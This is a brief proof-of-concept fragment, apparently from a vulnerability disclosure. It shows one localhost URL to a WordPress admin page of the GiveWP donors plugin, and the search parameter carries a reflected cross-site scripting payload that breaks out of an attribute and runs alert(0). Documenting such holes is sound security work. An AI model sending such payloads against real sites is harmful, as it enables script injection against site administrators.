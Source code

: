 POC
---

    http://localhost/wp-admin/edit.php?s=%22%3E<script>alert(0)</script>&start-date&end-date&form_id=0&action=-1&paged=1&give_action=delete_bulk_donor&orderby=id&order=DESC&action2=-1&post_type=give_forms&page=give-donors&view=donors